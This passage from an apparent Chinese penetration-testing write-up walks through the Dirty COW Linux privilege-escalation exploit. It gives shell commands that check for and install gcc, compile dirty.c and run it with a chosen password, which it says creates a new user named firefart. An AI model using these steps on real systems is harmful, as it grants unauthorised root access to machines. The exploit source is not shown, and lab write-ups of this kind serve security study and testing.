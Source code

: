 ```
whereis gcc  ##查看是否存在C语言环境
yum install gcc  ##安装C语言环境，注意在普通用户下不能安装。
```

![image-20230401181545540](assets/2MJkVtWYB1r78Px.png)

#### 3.2.2.2.2 编译脏牛EXP

```
gcc -pthread dirty.c -o dirty -lcrypt ##编译
```

![image-20230401181048795](assets/RSNcCzsOyrlFUi8.png)

### 3.2.2.3 执行脏牛EXP

这里我们执行脏牛EXP即可，执行完成后就会获取到一个用户名为firefart，密码就是刚刚设置的。

```
./dirty  123456  ##执行，后面的123456是自定义的密码
```

![image-20230401182705360](assets/qPD31i5T8xKLnrJ.png)
